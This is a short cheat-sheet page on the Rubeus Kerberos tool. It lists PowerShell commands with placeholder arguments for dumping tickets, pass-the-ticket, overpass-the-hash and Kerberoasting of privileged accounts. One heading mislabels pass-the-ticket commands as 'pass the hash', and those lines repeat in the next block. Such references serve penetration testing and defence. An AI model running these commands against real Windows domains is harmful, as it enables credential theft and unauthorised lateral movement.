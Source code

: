 # Rubeus

<div class="row row-cols-lg-2"><div>

[Rubeus](https://github.com/GhostPack/Rubeus) <small>(3.8k ⭐)</small> is a Windows tool to interact with kerberos and manipulate tickets.

```shell!
PS> .\Rubeus.exe dump /nowrap # Dump tickets
```

Request and load a ticket in the current session:

```shell!
PS> # Load the ticket in the current session
PS> .\Rubeus.exe asktgt /domain:xxx /user:xxx /rc4:xxx /ptt
```

Pass the hash:

```shell!
PS> .\Rubeus.exe ptt /ticket:xxx@yyy.kirbi
PS> .\Rubeus.exe ptt /ticket:<the base64 encoded ticket>
```
</div><div>

Pass the Key / OverPass the Hash <small>(create a ticket)</small>:

```shell!
PS> .\Rubeus.exe ptt /ticket:xxx@yyy.kirbi
PS> .\Rubeus.exe ptt /ticket:<the base64 encoded ticket>
PS> # Pass the Key / OverPass the Hash == create a ticket
PS> .\Rubeus.exe asktgt /domain:xxx /user:xxx /aes256:xxx /nowrap
PS> .\Rubeus.exe asktgt /domain:xxx /user:xxx /rc4:xxx /nowrap
```

Kerberoasting

```shell!
PS> .\Rubeus.exe kerberoast /stats # number of SPNs, encryption types
PS> .\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
PS> .\Rubeus.exe kerberoast /user:cn /nowrap # cn encryption settings
PS> .\Rubeus.exe kerberoast /tgtdeleg /ldapfilter:'admincount=1' /nowrap # try a downgrade attack
```
</div></div>